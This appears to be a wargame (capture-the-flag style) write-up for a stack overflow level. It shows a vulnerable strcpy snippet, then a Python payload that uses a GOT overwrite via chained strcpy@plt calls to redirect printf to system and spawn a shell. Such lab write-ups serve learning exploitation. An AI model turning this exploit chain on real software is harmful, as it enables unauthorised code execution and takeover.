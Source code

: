 # Vulnerability
```c
char buffer[256];
char temp[1024];
strcpy(buffer, temp);
```
This program uses strcpy function so I can overwrite SFP & RET address.

# Exploitation
This problem is same as previous problem.

I used `GOT Overwrite` method to get shell.

# Payload
```python
import os
from struct import *
from socket import *

p = lambda x:pack("<L", x)
target = "/home/evil_wizard/dark_stone"

strcpy_plt = 0x08048438
printf_plt = 0x08048408
printf_got = 0x0804984c
pop_pop_ret = 0x080484f3
bss = 0x08049868
sh_addr = 0x833603

system_1 = 0x080484d0 # c0
system_2 = 0x08048364 # 07
system_3 = 0x080486bf # 75
system_4 = 0x08048471 # 00

payload = ""
payload += "A"*268
payload += p(strcpy_plt) + p(pop_pop_ret) + p(printf_got+0) + p(system_1)
payload += p(strcpy_plt) + p(pop_pop_ret) + p(printf_got+1) + p(system_2)
payload += p(strcpy_plt) + p(pop_pop_ret) + p(printf_got+2) + p(system_3)
payload += p(strcpy_plt) + p(pop_pop_ret) + p(printf_got+3) + p(system_4)
payload += p(printf_plt) + "AAAA" + p(sh_addr)

print payload
```
